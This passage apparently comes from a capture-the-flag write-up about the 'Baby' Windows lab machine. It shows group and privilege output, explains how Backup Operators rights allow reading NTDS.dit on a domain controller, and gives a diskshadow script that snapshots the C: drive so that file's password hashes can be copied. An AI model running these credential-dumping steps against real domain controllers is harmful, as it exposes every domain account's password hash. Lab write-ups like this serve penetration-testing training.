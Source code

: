 ```
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
BABY\it                                    Group            S-1-5-21-1407081343-4001094062-1444647654-1109 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

---

One group stands out: Backup Operators. Members of the Backup Operators group can read files and directories that they normally would not have permission to access. This is intended to allow backup operations, but it can also be abused to extract sensitive files from the system.

Since we are on a Domain Controller, one of the most critical files we can extract is NTDS.dit, which contains hashed passwords for all domain users, including administrators.

## Extracting the NTDS.dit File

Since NTDS.dit is always in use, we cannot copy it directly. Instead, we use diskshadow, a built-in Windows utility that creates a snapshot of the system drive.

First, we need to upload a script (shadow.txt) to automate this process. The script contains following:

```
set context persistent nowriters
set metadata c:\exfil\metadata.cab
add volume c: alias trophy
create
expose %trophy% z:
```

Before uploading, ensure it's in Windows-compatible format:

```bash
┌──(kali㉿kali)-[~]
└─$ unix2dos shadow.txt 
```
